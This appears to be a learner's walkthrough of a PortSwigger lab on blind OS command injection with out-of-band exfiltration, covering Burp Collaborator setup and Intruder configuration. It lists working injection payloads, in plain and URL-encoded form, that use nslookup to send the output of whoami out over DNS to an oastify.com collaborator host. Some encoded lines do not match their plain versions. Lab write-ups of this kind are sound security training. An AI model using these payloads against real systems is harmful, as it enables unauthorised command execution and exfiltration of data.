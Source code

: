# [Lab Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

<br>

## Impression:
This one was much more challenging, the difficult part was in determining the
correct meta characters to use, and in making a successful connection to the
collaborator server.

<br>

## High-level overview:
I took the steps below because the original way I solved it in the past,
as well as what is listed in the solution was not working.
If you experience the same, then this should do it.

<br>

## Steps to take:
**1st, check the collaborator health:**

**Go to Settings, look under Project, then select:** 

**Collaborator -> Run health check.**

**If you receive errors regarding a failure to connect/cetification verify, etc..**

Then check the box:

**_Poll over unencrypted HTTP_**

Run the health check again, all connection errors should now be resolved
and the collaborator should be able to accept connections from the lab

<br>

## 2nd, Sort out the correct syntax and metacharacters and URL encode every payload
This shouldn't of been an issue, but it was.

**I Created every Permutation of the command that should return the desired result:**
There is a list of all permutations below for your convienience to copy-paste.

If you encounter this issue, try this work around
the command to augment: 
```
||nslookup+`whoami`.yourcollabaddy.oastify.com||
```
<br>

**For example, use the `||`, then in the next payload, substutute the `||` with `;` and so on.**

<br>

## I then copy-pasted each one individually into the Decoder, where I URL encoded each payload, then copy-pasted this list of URL-ecoded commands, into the intruder payload list.

<br>

## Selected the email parameter as the insertion point, and left it empty
`email=§§`

Then only ran the attack, and a few moments later, received multiple
DNS queries to the collaborator, one of which was the whoami command
`peter-ZxIdda ved5g7f2zi3z3k7zv8x31928hznqbiz7 oastify com`

then just copy-paste `peter-ZxIdda` into the submit solution
and that's it, solved.

## List of cmd injection payloads I created and URL encoded for the intruder
You can use this too, just be sure to substutue the collab address here
`tjzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com`
for yours

```
||nslookup+`whoami`.tjzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com||
;nslookup+`whoami`.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com;
&&nslookup+`whoami`.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com&&
|nslookup+`whoami`.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com|
;nslookup;+whoami;.tzw31500kgoxoisxg6i1m7n62x8owhk6.oastify.com;
;nslookup;+whoami;.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com;
&nslookup;+whoami;.tzw31500kgoxoisxg6i1m7n62x8owhk6.oastify.com&
```

**- I believe this is the one that solved it:**
```
;nslookup;+whoami;.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com;

```
- Notice the semicolin `;` appended to the end of the `nslookup` command
and the use of a plus sign and not a %20 to indicate a space
then the use of the semicolin again appended to th end of the `whoami` command

I have found this syntax and use of the semicolin `;` to be the most
effective/consistant way to successfully carry out command injection
exploits.
I originally discovered this when chaining Linux commands when creating aliases
in my .bashrc and .zshrc dot files



**And after URL encoding each one, your list should look like this:**
```
%7c%7c%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%74%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%7c%7c%0a%0a%0a%0a%0a%0a
%7c%7c%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%7c%7c%0a%0a%0a%0a%0a%0a%0a
%3b%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3b%0a%0a%0a%0a%0a%0a%0a
%26%26%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%0a%0a%0a%0a%0a%0a%0a%0a%0a
%7c%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%7c%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
%3b%6e%73%6c%6f%6f%6b%75%70%3b%2b%77%68%6f%61%6d%69%3b%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3b%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
%3b%6e%73%6c%6f%6f%6b%75%70%3b%2b%77%68%6f%61%6d%69%3b%2e%74%7a%77%33%31%35%30%30%6b%67%6f%78%6f%69%73%78%67%36%69%31%6d%37%6e%36%32%78%38%6f%77%68%6b%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3b%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
```

## Again, be sure to substutue the collab address in this example with your collab address.

**1. Paste your list of URL encoded permutated whoami with out of bounds commnds in to the Intruder payload list**
<br>
**2. Select the Attack type: Sniper**
<br>
**3. Select the email parameter for the payload position & leave it's value blank** 
<br>
  (this is because each payload will be injected here)
  <br>
**4. Then run the Attack**

<br>

## The End

